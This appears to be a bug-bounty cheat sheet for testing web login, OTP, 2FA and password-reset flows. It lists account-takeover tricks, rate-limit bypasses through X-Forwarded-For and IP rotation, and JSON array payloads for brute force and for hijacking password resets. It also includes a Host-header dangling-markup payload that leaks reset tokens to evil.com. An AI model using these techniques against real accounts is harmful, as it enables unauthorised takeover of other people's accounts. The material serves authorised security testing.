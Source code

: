 # Authentication Testing

## Login Page:
  - Try

## Email confirmation bypass:

  - Try response manupulate to cofirm email
  - while confirm email try this: intecept request to burp and change your mail to another person mail if you cloud get success. 
  
## OTP Relate Testing:

  - If you can manupulate response code to 200 and 302.
  - If you brute force login OTP
    - If WAF try Ip rote extension
    - Read some article and reports about rate limit bypass
  - While you confirming OTP try to change you email to victim email: if you cloud login as another user.
  - If target reseting password via OTP confirmation than you can add another emil with your mail: while request for reseting password:
    ```json
    {
     "email": [
       "victim@email.com",
       "you@email.com"
      ]
    }
    # If you got OTP in your mail try reset password: then possible victim account takeover 
    ```

## Password Reset functionality:
  - Try to add Host header in reset password request.
  - [report](https://hackerone.com/reports/698416) 
  - While reset password see if we can reset without knowing current password. By response manipulate. 
  - While reseting password intercept request to burp and see if you cloud add ```<a href>``` tag and see in email if there anything changes. 

## Authentication:
	
  - Bypass Rate Limit with X-Forwarded-For: to pwn authentication
  - Host header injeciton in forgot password page
	- Test Remember me functionality
  - Test password reset and/or recovery
  - 2FA Bypass
    - Access the content directly (site.com/profile)
    - Login using Oauth gmail or FB to bypass 2FA
    - Reset Password and login inoto the account to bypass 2FA 
    - Use old toke or change the response
  - Goto the reset password page and add two emails while sending the reset password link
		[You can recive two password reset link]
  - Web Cache deception [site.com/profile/min.js]
  - PHP protection can be bypassed using [] such as password=1234 ----> password[]= (CSRF token too)
  - While resetting password change the host header to your server (VPS) = secret link to your VPS
  - Bypass rate limit protection: You can use IP-Rotate burp extension or you can change system IP per request.
	
  - Password reset poisoning via dangling markup
	```Host: victim.com:'<a href="//evil.com/?  ```

  - Add X-Forwarded-For: 127.0.0.1 or 1-1000 to bypass the rate limit protection.

  - Login into the valid account and then into valid one, repeat this process to fool the sever to bypass the rate limit protection (observe that your IP is blocked        if your submit 3 incorrect logins in a row. However, you can reset the counter by logging in to your own account before the limit is reached)

  - replace the single string value of the password with an array of string containing all of the candidate passwords, for Example:
	
```json
	"username": "test",
	"password": [
		"1234",
		"password",
		"qwerty"
		....
	]
```

  - If you enter the wrong code twice, you will be logged out again bypass it using macros (You need to use burp's session handlling features to log back in
    automatically before sending each request.)
	
